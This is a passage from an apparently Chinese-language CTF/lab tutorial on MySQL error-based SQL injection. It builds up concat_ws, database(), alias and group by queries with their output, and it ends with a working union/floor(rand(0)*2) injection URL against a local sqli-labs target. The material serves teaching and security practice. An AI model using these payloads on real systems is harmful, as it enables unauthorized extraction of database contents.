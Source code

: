 也可以利用此函数达到信息泄露

```sql
mysql> select concat_ws('~',(select database()),3);
+--------------------------------------+
| concat_ws('~',(select database()),3) |
+--------------------------------------+
| ctfsu~3                              |
+--------------------------------------+
1 row in set (0.00 sec)
```

##### as 别名

##### group by 排序

##### 完整注入语句

```sql
mysql> select concat_ws('~',(select database()),3) from xml;
+--------------------------------------+
| concat_ws('~',(select database()),3) |
+--------------------------------------+
| ctfsu~3                              |
| ctfsu~3                              |
+--------------------------------------+
2 rows in set (0.00 sec)

mysql> select concat_ws('~',(select database()),3) as a from xml group by a;
+---------+
| a       |
+---------+
| ctfsu~3 |
+---------+
1 row in set (0.00 sec)

mysql> select count(*), concat_ws('~', (select database()), '3') as a from xml group by a;
+----------+---------+
| count(*) | a       |
+----------+---------+
|        2 | ctfsu~3 |
+----------+---------+
1 row in set (0.00 sec)
```

#### 注入流程

##### 查看当前数据库名

```
http://192.168.231.129:9001/Less-5/?id=1' union select 1,count(*),concat_ws('~',(select database()),floor(rand(0)*2)) as a from information_schema.tables group by a%23
```
